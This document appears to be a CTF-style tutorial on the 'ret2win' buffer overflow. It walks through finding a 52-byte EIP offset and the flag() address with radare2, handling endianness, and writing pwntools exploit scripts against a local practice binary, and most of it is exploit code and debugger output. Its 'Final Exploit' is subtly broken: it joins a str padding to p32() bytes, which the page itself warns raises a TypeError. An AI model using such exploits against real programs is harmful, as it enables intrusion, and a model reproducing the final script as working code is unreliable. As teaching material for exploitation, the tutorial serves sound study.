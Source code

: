 ```yaml
---
description: 'One of the most basic binexp challenges of all, the ret2win'
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function \(or equivalent\); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the EIP
* What value we want to overwrite EIP to

### Finding the Padding

This can be found using simple trial and error; if we send variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force \(we'll cover this in the next post\), but it'll do for now.

> Note: You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```text
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

> Note: `afl` stands for **A**nalyse **F**unctions **L**ist

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use pwntools to interface with the binary \(check out the pwntools posts for a more in-depth look\).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())      # Receive all the text

pause()

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```text
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```text
[0x08049172]> db 0x080491aa
[0x08049172]> dc
<<press any button on the exploit terminal window>>
hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** \(the byte with the largest value\) at the smallest memory address, while little-endian does the opposite; most binaries you will come across are little-endian. Essentially, as far as we're concerned, the byte are stored in reverse order in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```text
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address \(you can also remove the `pause()`\)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```text
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```text
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = 'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

